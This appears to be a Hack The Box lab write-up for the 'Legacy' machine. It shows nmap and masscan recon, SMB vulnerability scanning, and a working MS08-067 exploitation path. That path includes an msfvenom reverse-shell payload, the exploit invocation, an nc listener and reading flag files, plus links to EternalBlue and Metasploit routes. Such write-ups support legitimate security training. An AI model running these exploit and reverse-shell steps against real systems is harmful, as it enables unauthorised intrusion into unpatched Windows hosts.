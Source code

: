 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0a9f2486-def8-4367-a7c3-52d48f4ae128)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)

+ Check **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323.


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2008-4250 (ms08-067) / Conficker](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-08-067)
+ Download python exploit from **ms08-067: CVE-2008-4250** [1](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) [2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
+ Take this shellcode into the script, and replace it with the default.
+ Update the shellcode in the exploit with our own. Copy the shellcode from **shellcode.txt** and overwrite the payload in the exploit.

```
# On the kali attack vm:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

# On the target machine:
cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)

+ Transfer **whoami.exe** from **/usr/share/windows-binaries/** using **smbserver.py** since XP doesn't have a whoami binary or command.
+ Check if get the NT AUTHORITY\SYSTEM level access.

```
# On the kali attack vm:
smbserver.py win /usr/share/windows-binaries/

# On the target machine:
\\10.10.14.24\win\whoami.exe
```

+ Get both user and root flags.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/168b61ac-c71d-4f60-8568-a9e1223f669a)


### Method 2: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit#d6e0) [3](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)
+ Try [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://github.com/helviojunior/MS17-010) [3](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py)
+ The exploit didn't work on me due to the below impacket errors:
  + [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
  + [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ **Alternatively**, [3](https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143)  [4](https://github.com/worawit/MS17-010)


### Method 3: CVE-2008-4250 (ms08-067) / Conficker -> Metasploit Solution
+ **windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50


### Method 4: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers -> Metasploit Solution
+ **exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
  + https://slv3rfx.com/posts/htb-legacy-writeup/


# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ **ms08-067 / ms17-010:** https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
  + https://systemweakness.com/oscp-preparation-hack-the-box-2-legacy-557dc3f0e384
+ **ms17-010:** https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/legacy-hackthebox-walkthrough-2023-tonee-55189d9f6035
+ **metasploit exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://slv3rfx.com/posts/htb-legacy-writeup/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
+ **ms08-067:** https://benheater.com/hackthebox-legacy/
+ **metasploit windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50
  + https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/
  + https://www.hackingarticles.in/hack-the-box-challenge-legacy-walkthrough/


## CVE Scripting
+ **CVE-2008-4250 (ms08-067) / Conficker:** https://www.exploit-db.com/exploits/40279
    + https://nvd.nist.gov/vuln/detail/cve-2008-4250
    + https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067
    + https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  + https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
  + https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
+ **CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers:** https://www.exploit-db.com/exploits/43970
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010


## Tools
+ **windows-binaries / whoami.exe:** /usr/share/windows-binaries
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami
+ **smbserver.py:** /usr/share/doc/python3-impacket/examples/smbserver.py
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)


## For More
+ **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323
+ https://en.wikipedia.org/wiki/The_Shadow_Brokers
